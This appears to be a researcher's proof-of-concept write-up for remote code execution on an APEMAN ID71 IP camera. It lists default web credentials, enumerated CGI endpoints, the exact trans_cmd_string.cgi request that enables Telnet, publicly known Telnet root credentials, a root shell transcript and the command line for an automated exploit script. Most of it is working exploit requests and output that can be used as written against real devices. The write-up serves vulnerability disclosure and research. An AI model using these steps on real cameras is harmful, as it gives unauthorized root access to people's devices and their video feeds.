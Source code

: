### APEMAN ID71 — RCE

This guide shows how to exploit an endpoint that allows you to enable the Telnet service on the camera using an HTTP CGI request, and then gain RCE over Telnet with known default credentials.

The camera ships with default credentials `admin:888888`. Additionally, if those credentials are changed, you can connect to the UART interface and it will leak the credentials so you can then log in.

While trying multiple exploit methods, I couldn't find any for this camera, so I started reverse engineering it and extracted all CGI endpoints from the binary that runs the camera.

Once I had all the endpoints, I created a Python script to enumerate each endpoint and display its output.

``` 
python makemyday.py --server 127.0.0.1 --port 9999 --findcgi-prefix "" findcgi --wordlist list.txt                          
Found CGI at wifi_scan.cgi?loginuse=admin&loginpas=888888                                                                         
Found CGI at camera_control.cgi?loginuse=admin&loginpas=888888                                                                    
Found CGI at set_users.cgi?loginuse=admin&loginpas=888888                                                                         
Found CGI at set_datetime.cgi?loginuse=admin&loginpas=888888                                                                      
Found CGI at upgrade_firmware.cgi?loginuse=admin&loginpas=888888                                                                  
Found CGI at decoder_control.cgi?loginuse=admin&loginpas=888888                                                                   
Found CGI at camera_control.cgi?loginuse=admin&loginpas=888888                                                                    
Found CGI at get_status.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_params.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_camera_params.cgi?loginuse=admin&loginpas=888888                                                                 
Found CGI at get_log.cgi?loginuse=admin&loginpas=888888                                                                           
Found CGI at get_misc.cgi?loginuse=admin&loginpas=888888                                                                          
Found CGI at get_record.cgi?loginuse=admin&loginpas=888888                                                                        
Found CGI at get_record_file.cgi?loginuse=admin&loginpas=888888                                                                   
Found CGI at get_wifi_scan_result.cgi?loginuse=admin&loginpas=888888
....
Found CGI at set_test_auto_upgrade.cgi?loginuse=admin&loginpas=888888
Found CGI at trans_cmd_string.cgi?loginuse=admin&loginpas=888888                                                                  
Found CGI at get_sensor_preset.cgi?loginuse=admin&loginpas=888888 
```

I noticed the `trans_cmd_string` endpoint. The `cmd` parameter caught my attention, so I analyzed the request and response:

```
REQUEST:
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888 HTTP/1.1

Host: 10.99.99.151:12925
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
```

```
RESPONSE:
HTTP/1.1 200 OK

Date: Mon Oct  6 00:05:40 2025
Server: GoAhead-Webs
Last-modified: Thu Jan  1 00:00:08 1970
Content-type: text/html
Cache-Control:no-cache
Content-length: 0
Connection: close


```

I then added the parameter `cmd=id` and got this response:

```
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888&cmd=id HTTP/1.1

Host: 10.99.99.151:12925
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0

RESPONSE:
HTTP/1.1 200 OK

Date: Mon Oct  6 00:07:17 2025
Server: GoAhead-Webs
...

var cmd=3;
```

Interesting. I searched the Internet for this endpoint and found a [GitHub discussion](https://github.com/themactep/thingino-firmware/issues/612#issuecomment-2803136182) noting that using the following parameters enables Telnet:

```
GET /trans_cmd_string.cgi?loginuse=admin&loginpas=888888&cmd=2101&command=1 HTTP/1.1
```

I tested it, and it worked, the Telnet port opened:

``` 
$ telnet 10.99.99.151                                        
Trying 10.99.99.151...                                           
Connected to 10.99.99.151.                                       
Escape character is '^]'.                                        
(none) login:
```

Because these credentials are publicly known (`vstarcam2017:20170912`), I used them to obtain a root shell:

```bash
telnet 10.99.99.151
Trying 10.99.99.151...
Connected to 10.99.99.151.
Escape character is '^]'.
(none) login: vstarcam2017
Password: 
Welcome to HiLinux.
# id
uid=0(vstarcam2017) gid=0(root) groups=0(root)
```

I created a Python script [RCE_apeman_id71.py](https://github.com/juliourena/APEMAN-Camera-PoCs/blob/main/RCE/RCE_apeman_id71.py) to automate this attack:

```bash
python rce_apeman_id71.py --host 10.99.99.151 --port 12925 --loginuse admin --loginpas 888888 --tn-user vstarcam2017 --tn-pass 20170912 --command "id;ifconfig"
[+] Enabling Telnet via CGI ...
[+] CGI enable Telnet response: HTTP 200
[+] Connecting to Telnet at 10.99.99.151:23 ...

Welcome to HiLinux.
# id;ifconfig
uid=0(vstarcam2017) gid=0(root) groups=0(root)
eth0      Link encap:Ethernet  HWaddr 28:AD:3E:3B:B9:21
          inet addr:10.99.99.151  Bcast:10.99.99.255  Mask:255.255.255.0
          inet6 addr: fe80::2aad:3eff:fe3b:b921/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1977 errors:0 dropped:1593 overruns:0 frame:0
          TX packets:384 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:102190 (99.7 KiB)  TX bytes:38809 (37.8 KiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:3 errors:0 dropped:0 overruns:0 frame:0
          TX packets:3 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:3168 (3.0 KiB)  TX bytes:3168 (3.0 KiB)

# exit
```

![Exploit](RCE_apeman_id71.gif)
